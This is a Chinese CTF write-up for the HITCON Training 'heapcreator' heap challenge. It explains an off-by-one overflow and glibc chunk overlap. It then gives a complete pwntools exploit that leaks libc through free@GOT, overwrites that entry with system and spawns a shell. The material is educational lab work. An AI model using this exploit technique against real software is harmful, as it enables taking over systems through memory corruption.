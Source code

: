 ```yaml
---
title: lab13_heapcreator
date: 2019-07-20
categories:
- hitcon_trainning
tags: heap  off_by_one  chunk_extend
---
```


**<font style="font-size:25px">Off By One & chunk_extend</font>**

# Off By One

## 概念
单字节缓冲区溢出：
- 循环次数设置错误
- 字符串操作不合适
    `strlen`不考虑`\x00`来计算长度，但是`strcpy` 会把`\x00`一起复制
    ```C
    if(strlen(buffer) == 24){
        strcpy(arr,buffer);
    }
    ```
    如果`arr`的大小是24，但是实际上会拷贝25个数据。   

又叫栅栏错误。
>  是差一错误的一种。   

## 应用
应用广泛（大概），这道题里用的他更改下一个chunk的size域，达到overlap的效果。

# chunk_extend

## 如何获得各个chunk位置

在`ptmalloc`中，chunk_header是定位前后chunk的重要依据。  

- 获取下一chunk
    当前指针加上`header`中`size`的大小。
- 获取前一chunk
    当前指针减去`header`中`pre_size`的大小。
## 判断是否在使用
- 判断前一chunk是否在使用当中
    `size`中的`pre_inuse`标志。
- 判断当前chunk是否在使用当中
    查看下一个chunk的`pre_inuse`标志。
- 判断下一chunk是否在使用当中
    查看下下一个chunk的`pre_inuse`标志。

## 原理

通过更改chunk_header的数据，可以让一个chunk中包含另一个chunk，从而实现跨越chunk的操作——overlapping。  

# trick

- 当需要malloc的长度（size）没有和`0x8`对齐时（64位），实际分配到的chunk大小将会是`size & (~0xf) `。少的内存由相邻下一个chunk的`pre_size`补上。

# 思路

## 流程
是一个常见的分配堆，释放堆的题目。
- 分配  
    首先`malloc(0x10)`创建一个结构体，里面存储`size`和指向`content`的指针。此后的操作都是在这个结构体里面获得数据。  

    然后用户指定大小分配内存存储`content`。

- 释放   

    会把结构体和`content`的内存释放，并将结构体的指针置空。

- 提供编辑和打印功能

## 漏洞

在删除函数中人为地创造了一个`off_by_one`的漏洞。    

## 利用  

1. 分配两个`content`，`content_0`大小见trick，`content_1`大小需要和结构体大小相同【原因见后】，程序会分配4个chunk。其中两个是结构体。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_XR5zJ.png)   
    注意这里`struct_1`和`content_1`的大小和地址。

2. 编辑`content_0`，使`struct_1`的`size`大小为`struct_1` 和 `content_1`的大小之和。    
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_8PVlN.png)   
    在更改了`struct_1`的`size`之后，gdb解析的heap中就没有`content_1`了
    
3. delete(1)   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_dCeyN.png)   
    `fastbin`中的原有`struct_1`被放进了`0x40`的`bin`中。

4. 分配`0x30`大小的content    
    系统会先在`fastbin`找有没有`0x20`和`0x40`大小的chunk来作为`struct`和`content`，于是原有`struct_1`&`content_1`就被分配给了新的`struct`和`content`。
    > `content_1`大小要和`struct`相同的原因

    但是这两个实际大小都是`0x20`。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720213636_tZMYT.png)   

    当向`content_2`写入数据，就可以覆盖到`struct_2`。    
    【题目中编号仍为1，此处只为容易分辨】  

    构造chunk如图。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720213636_Cz4Lm.thumb.700_0.png)  

5. 打印`content_2`   
    前面说到所有有关`content`的操作都是根据`struct`中存的数据来的。   
    打印是打印`struct`中存的地址指向的位置。在此处改为`free_got`计算后即可得到`libc`基址。  

6. 编辑`content_2`   
    其实已经成为改`got`表的操作了。    
    将`free`的`got`表改为`system`的地址。   
    调用`free`的时候，参数是`struct`的存的地址，也就是`*(struct->addr)`。   
    所以我们可以在一开始构造`content_0`的时候，就把内容改成`/bin/sh\x00`,当delete(0)的时候就是`system("/bin/sh");`。   

# exp
```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def delete(index):
    sh.sendlineafter(':','4')
    sh.sendlineafter(':',str(index))

def create(sz,content):
    sh.sendlineafter(':','1')
    sh.sendlineafter(': ',str(sz))
    sh.sendafter(':',content)

def show(index):
    sh.sendlineafter(':','3')
    sh.sendlineafter(':',str(index))

    ret = u64(sh.recvuntil('\x7f')[-6:] + '\x00\x00')
    return ret

def edit(index,content):
    sh.sendlineafter(':','2')
    sh.sendlineafter(':',str(index))
    sh.sendlineafter(': ',content)

if __name__ == '__main__':
    
    sh = process('./heapcreator')
    elf =  ELF('./heapcreator')
    libc = elf.libc
    free_got = elf.got['free']
    free_libc  = libc.symbols['free']
    system_libc = libc.symbols['system']

    create(0x18,'A' * 8)
    create(0x10,'B' * 8)

    payload = '/bin/sh\x00' + cyclic(0x10) + '\x41'
    edit(0,payload)

    delete(1)

    gdb.attach(sh)
    payload = cyclic(0x10) + p64(0) + p64(0x21) + p64(0x30) + p64(free_got)
    create(0x30,payload)

    free_addr = show(1)
    system_addr = free_addr - free_libc + system_libc
    log.info('==================>free addr:{:#x}<=============='.format(free_addr))
    log.info('==================>sysytem addr:{:#x}<=============='.format(system_addr))

    edit(1,p64(system_addr))
    delete(0)
    

    sh.interactive()
    sh.close()
```

## atoi 

这里也可以改`atoi`，在`choice:`的时候限制4个字节，输入`sh\x00`就可以了。

# 一个问题

- 为什么在glibc2.27里面跑的时候，fastbin里面是空的。但是getshell是可以的？